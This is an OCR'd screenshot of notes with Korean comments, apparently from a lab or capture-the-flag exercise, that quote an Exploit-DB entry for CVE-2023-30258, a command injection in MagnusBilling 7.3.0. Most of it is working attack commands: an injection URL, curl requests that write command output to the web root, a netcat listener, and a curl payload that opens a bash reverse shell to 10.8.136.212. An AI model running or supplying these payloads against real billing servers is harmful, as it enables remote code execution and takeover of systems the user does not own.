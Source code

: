 # 취약점 정보

cat /usr/share/exploitdb/exploits/multiple/webapps/52170.txt

# Exploit Title: MagnusSolution magnusbilling 7.3.0 - Command Injection

# Date: 2024-10-26

# Exploit Author: CodeSecLab

# Vendor Homepage: https://github.com/magnussolution/magnusbilling7

# Software Link: https://github.com/magnussolution/magnusbilling7

# Version: 7.3.0

# Tested on: Centos

# CVE : CVE-2023-30258

# PoC URL for Command Injection

http://magnusbilling/lib/icepay/icepay.php?democ=testfile; id > /tmp/injected.txt

curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bwhoami%20%3E%20/var/www/html/mbilling/real_test.txt"
curl "http://10.10.13.178/mbilling/real_test.txt"

nc -lvnp 4444 # 터미널 1

# 터미널 2에서:

curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bbash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.8.136.212/4444%200%3E%261%27"

## 커맨드 인젝션 -> 직접적인 인젝션을 해도 원격지에서 실행이 되므로 내가 확인은 불가능 -> 파일로 저장되게 한 후 -> http 로 접근해서 웹에서 확인하기
